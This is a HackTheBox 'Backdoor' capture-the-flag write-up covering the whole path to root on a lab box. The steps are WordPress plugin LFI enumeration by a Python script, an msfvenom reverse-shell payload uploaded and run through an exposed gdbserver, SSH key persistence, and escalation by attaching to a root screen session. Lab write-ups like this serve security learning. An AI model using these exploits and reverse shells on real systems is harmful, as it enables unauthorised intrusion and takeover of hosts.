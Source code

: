 ```yaml
---
title: Backdoor writeup
date: 2022-06-17 14:00:00 +0200
categories: [Writeup, HackTheBox]
tag: ["Easy-box"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/backdoor/
image: # Thumbnail 
  src: Backdoor.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```

## Summary
This box includes a unique way of enumerating a machine through an LFI by fuzzing for a specific PID that spawned a service on port 1337. At least I hadn't seen it before trying it. The privesc step however is rather straight forward.

## Foothold
Let's start of with an nmap scan.
```console
# Nmap 7.92 scan initiated Sat Nov 20 14:36:07 2021 as: nmap -sC -sV --open -p- -oA nmap_scans/scan_full 10.129.102.115
Nmap scan report for 10.129.102.115
Host is up (0.071s latency).
Not shown: 62690 closed tcp ports (conn-refused), 2842 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 20 14:36:55 2021 -- 1 IP address (1 host up) scanned in 48.52 seconds
```

Based on the nmap scan we can conclude that it is using Wordpress. Since this is a wordpress site it is usually a good idea to check which plugins are used. this can be done by checking the /wp-content/plugins directory. We quickly learn that a plugin named ebook-download 1.1 is installed. Searching for exploits related to this leads to the following poc on exploit-db:
<https://www.exploit-db.com/exploits/39575>

It's a very simple poc. Basically we can use the ebook-download plugin to download local files from the server granting us LFI.

Before we continue it might be a good idea to learn what service is running on port 1337. I wrote a very simple script 

```python
import requests

target = '/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{}/cmdline'

url = 'http://10.129.107.129'

for i in range(1000):
        r = requests.get(url + target.format(i))
        result = r.text.split("cmdline")[3].split("<script>")[0]
        if result == '':
                continue
        else:
                print(r.text.split("cmdline")[3].split("<script>")[0] + '\n')

```

The script simply automates the process of getting the cmdline which initiated the process associated with the pid in the url. We don't know what pids are found in the /proc folder on the target system, so I just used a for-loop and printed all non-empty results. 

Running this script gives us the following results (among others):
```console
/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

Based on this it seems that there is a gdb server on port 1337

To exploit this we can create a reverse shell by using msfvenom: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -o rev.elf`

we can then connect to the gdb server by using gdb:

```console
gdb
target extended-remote IP:PORT
remote put rev.elf rev.elf
set remote exec-file /home/user/rev.elf
show remote exec-file
run
```

The above commands start by connecting to the GDB server. After this the `rev.elf`{: .filepath} file is sent to the server with the same name. The file is then chosen to be run and then executed. When the file is run we of course get a reverse shell on the target system.

To get a more stable shell we simply use wget to get the id_rsa.pub file from our own system. We then rename this file to authorized_keys on the target system and connect via ssh:

![connecting via ssh](ssh.png)

## Privilege escalation

We start out by finding SUID binaries.
```console
user@Backdoor:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/pkexec
```

screen is set as a SUID binary.

```console
ser@Backdoor:~$ ls -laR /var/run/screen
/var/run/screen:
total 0
drwxr-xr-x  4 root utmp  80 Jun 13 14:43 .
drwxr-xr-x 25 root root 760 Jun 13 14:40 ..
drwx------  2 root root  60 Jun 13 14:04 S-root
drwx------  2 user user  40 Jun 13 14:43 S-user
ls: cannot open directory '/var/run/screen/S-root': Permission denied
```
Based on this output there is a screen session running as root. To switch to this session we can use the -x flag:
```console
screen -x root/root
```
and rooted!
